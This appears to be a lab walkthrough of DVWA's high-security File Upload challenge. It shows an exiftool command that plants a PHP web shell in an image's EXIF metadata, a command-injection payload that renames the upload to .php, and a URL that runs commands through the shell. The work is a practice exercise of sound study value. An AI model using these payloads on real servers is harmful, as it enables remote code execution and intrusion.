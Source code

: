 📤 File Upload – High Security Level

### 🛠️ Objective:
Bypass multiple validation mechanisms to execute code.

---

### 🔒 What's Different?

Source code analysis reveals:
- ✅ Extension validation
- ✅ File size limit
- ✅ Image verification via `getimagesize()`

---

### 🚧 Problem with Traditional PHP Files

- Manually created PHP files or reverse shells won't pass image checks (`getimagesize()` returns false).
- Uploading such files results in an error.

---

### 🧠 Exploiting via Image Metadata (EXIF Injection)

1. Use a valid image (e.g., `image.jpeg`).
2. Inject malicious PHP code into the **EXIF metadata**:
```bash
exiftool -DocumentName="<h1>Backdoor<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>'; system(\$_REQUEST['cmd']); echo '</pre>'; } __halt_compiler(); ?></h1>" image.jpeg
````

3. Upload the modified image.

✅ Upload will succeed since the image dimensions remain valid.

---

### 🐚 Triggering Execution

Uploaded image has `.jpeg` or `.png` extension, so it's treated as a safe image and won’t execute PHP.

💡 Rename the uploaded file to `.php` using a **previous vulnerability** (e.g., Command Injection):

```bash
127.0.0.1|mv ../../hackable/uploads/image.jpeg ../../hackable/uploads/backdoor.php
```

Then access:

```
http://127.0.0.1/DVWA/hackable/uploads/backdoor.php?cmd=id
```

✅ Code in EXIF metadata will be executed, providing a web shell.

---

### 🧩 Summary

* ✅ Image dimension and MIME checks
* ✅ Extension filter
* ✅ Still exploitable via EXIF + Command Injection

## ✅ Status

* ⚠️ Advanced exploit path
* 🔴 Requires chaining vulnerabilities
